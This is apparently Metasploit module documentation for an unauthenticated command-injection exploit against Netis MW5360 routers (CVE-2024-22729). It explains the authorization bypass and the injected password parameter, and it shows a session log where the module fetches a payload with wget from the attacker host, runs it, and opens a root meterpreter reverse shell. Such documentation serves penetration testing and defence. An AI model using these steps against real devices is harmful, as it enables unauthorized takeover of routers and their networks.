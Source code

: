 ```msf
Description:
  Netis router MW5360 has a command injection vulnerability via the password parameter on the login page.
  The vulnerability stems from improper handling of the "password" parameter within the router's web interface.
  The router's login page authorization can be bypassed by simply deleting the authorization header,
  leading to the vulnerability. All router firmware versions up to `V1.0.1.3442` are vulnerable.
  Attackers can inject a command in the 'password' parameter, encoded in base64, to exploit the command injection
  vulnerability. When exploited, this can lead to unauthorized command execution, potentially allowing the attacker
  to take control of the router.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-22729
  https://attackerkb.com/topics/MvCphsf4LN/cve-2024-22729
  https://github.com/adhikara13/CVE/blob/main/netis_MW5360/blind%20command%20injection%20in%20password%20parameter%20in%20initial%20settings.md

View the full module info with the info -d command.
```
## Options
### CMD_DELAY
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking using the `CMD_DELAY` option.

## Scenarios
###  Netis MW5360 Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set target 0
target => 0
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set lhost 192.168.1.2
lhost => 192.168.1.2
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.1:80 can be exploited.
[+] The target appears to be vulnerable. Netis MW5360 1.0.1.3442
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.1.2:8080/IbZMnLDC
[*] Executing wget -qO /tmp/kgfXdZZW http://192.168.1.2:8080/IbZMnLDC
[*] Client 192.168.1.1 (Wget) requested /IbZMnLDC
[*] Sending payload to 192.168.1.1 (Wget)
[*] Executing chmod +x /tmp/kgfXdZZW
[*] Executing /tmp/kgfXdZZW
[+] Deleted /tmp/kgfXdZZW
[*] Meterpreter session 7 opened (192.168.1.2:4444 -> 192.168.1.1:43254) at 2024-05-19 11:51:21 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
```